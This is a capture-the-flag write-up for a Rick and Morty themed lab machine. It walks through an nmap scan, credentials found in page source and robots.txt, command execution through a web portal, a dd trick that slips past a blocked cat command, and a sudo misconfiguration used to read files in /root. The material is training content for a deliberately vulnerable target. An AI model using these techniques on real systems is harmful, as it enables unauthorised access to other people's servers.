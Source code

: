 # Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

## nmap -p- [ip]

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 01:00 UTC
Nmap scan report for ip-10-10-160-245.eu-west-1.compute.internal (10.10.160.245)
Host is up (0.0045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A2:5E:0E:7C:36 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.95 seconds
```

## website at :80

Contains a short bit of text outlining the scenario. The html source contains:

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Nikto reveals its running apache and that /login.php exists. dirb additionally showed robots.txt and a browsable assets folder. The latter showed nothing of note, but the former contained the text: `Wubbalubbadubdub`. This worked as a password on the login form, providing access to portal.php. I didn't guess this myself unfortunately: got distracted running hydra, which wasn't working. Stupid CTF logic.

## portal cmd interface

Portal.php presented a page with a number of tabs, all of which said access denied except for the REAL rick. The only tab accessible, the default, allowed me to execute commands in a shell-like way.

`ls -lA` revealed:

```
total 32
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

I tried `cat`, but got `Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`

`pwd` revealed the path was `/var/www/html`, `whoami` revealed I was acting as `www-data` and `ls -lA /var/www` revealed the web dir was owned by root, so I could not write any files into it. No simple web shell for me.

However, the text files in the above listing I could obviously just browse to. Sup3rS3cretPickl3Ingred.txt revealed the first ingredient: `mr. meeseek hair`

clue.txt contained: `Look around the file system for the other ingredient.`

## exploring and using dd

Next step was browsing about, and the first place I looked was the home dirs. There were two, `rick` and `ubuntu`. The former containing an ascii file `second ingredients`, confirmed via the `file` command. I needed to read it.

`cat` was blocked as already discussed. So was `head` and `tail`. However `dd` was not:

`dd count=200 bs=1 if=/home/rick/second\ ingredients` revealed `1 jerry tear`

## sudo and finish

I tried doing a search for suid bits, but it didn't seem to work. On a whim I ran `sudo -l` and to my surprise found: 

```
Matching Defaults entries for www-data on ip-10-10-17-154.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-17-154.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Easy. `sudo ls -lA /root` revealed:

```
total 20
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 3 root root 4096 Feb 10  2019 snap
```

And then `sudo dd count=200 bs=1 if=/root/3rd.txt` revealed `3rd ingredients: fleeb juice`

## Summary

I wish I had guessed on my own the password from robots.txt, but aside from that this was all trivial.
